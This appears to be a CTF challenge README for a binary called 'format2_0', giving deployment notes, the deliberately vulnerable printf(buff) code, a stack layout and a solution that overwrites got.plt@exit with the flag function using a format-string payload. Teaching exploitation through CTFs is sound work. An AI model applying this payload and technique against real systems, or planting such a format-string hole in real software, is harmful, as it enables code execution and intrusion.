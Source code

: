 # format2_0

## description
![pointers](./pointers_meme.jpg)
> nc endpoint 1337 

## deployment
 1. [format2_0](./deploy/format2_0) I/O must be redirected to TCP port (address and port in description must be updated).
 2. [flag](./deploy/flag) must be located in te same directory as [format2_0](./deploy/format2_0) 
 3. [format2_0](./deploy/format2_0) must be referenced as download link below description.

## gathering weapons

checksec:

```Canary  : Yes
NX      : Yes
PIE     : Yes
Fortify : No
RelRO   : Partial
```

Obfuscated `stack` and `text` segments leaks:

``` c
printf("%p\n%p\n", (uint)s.px + 0xf00d * 0xbad, (uint)flag - 0x1337 * 0x997);
```

 Classic string format vulnerability in `main()` :

```c
char buff[128]; // .bss
...
read(0, buff, sizeof(buff));
printf(buff);
```
Stack layout when `printf()` is executed:

```
+0x00: 0x00001337
+0x04: 0x00000bad
+0x08: 0xffffd638  →  +0x54  →  +0x58
+0x0c: 0x00000997
+0x10: 0xffffd640  →  +0x5c  →  +0x60
+0x14: 0x000000c2
...
+0x50: 0x56557000
+0x54: 0xffffd63c  →  +0x58
+0x58: 0xdeadface
+0x5c: 0xffffd644  →  +0x60
+0x60: 0xcafebabe
+0x64: 0x00000000
```

## solution

Due to `exit()` being called shortly after `printf()` We can't override the return address. 

Fortunately,  `got.plt` has `rw` permissions so We can override `got.plt@exit` with `flag()` address.  

Thanks to `text` segment leak We're able to determine the exact address of `got.plt@exit` and `flag()`.

Format buffer for `printf()` is controlled by us, but it is located in `.bss` so We're unable to directly specify each parameter on the stack.

When `printf()` is executed, two double pointers (`stack -> stack -> stack`) are left on the stack:

```
%3$p     %22$p     %23$p
+0x08 →  +0x54  →  +0x58

%5$p     %24$p     %25$p
+0x10 →  +0x5c  →  +0x60
```

Thanks to `stack`segment leak We're able to determine the exact address of each parameter on the stack.

We can change the two lower bytes of `%22$p` and `%24$p` so that they point to both high and low word of `%26$p`:

```
%3$p     %26$p     %26$p
+0x08 →  +0x54  →  +0x64

%5$p     %26$p     %26.5$p
+0x10 →  +0x5c  →  +0x66
```

Now We're able to set arbitrary address at `%26$p`, in our case it is address of `got.plt@exit`. 

Thanks to `exit()` address is not resolved yet, `got.plt@exit` points back to `got.plt` instead of `libc`, so We're sure that its high word is same as high word of `flag()` address.  It means that we only have to override its lower word so it points to `flag()`.

Final payload:

```
values of <n1> - <n5> depend on the actual aslr behavior
%c%<n1>c%hhn%<n2>c%hhn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%<n3>c%hn%<n4>c%hn%<n5>c%hn
```

[exploit.py](./exploit.py) automates steps described above.

## why not positional arguments?

It is impossible to use positional arguments e.g. `%1$p`, because `printf()` makes copy of format parameters when positional arguments are used. 
It ruins this kind of exploitation technique.

## buffer size

Currently, `buffer` in `.bss` is `128` bytes long, but exploit mentioned above requires at most `80` bytes so it is possible to decrease the `buffer` size to make this task even more complicated.

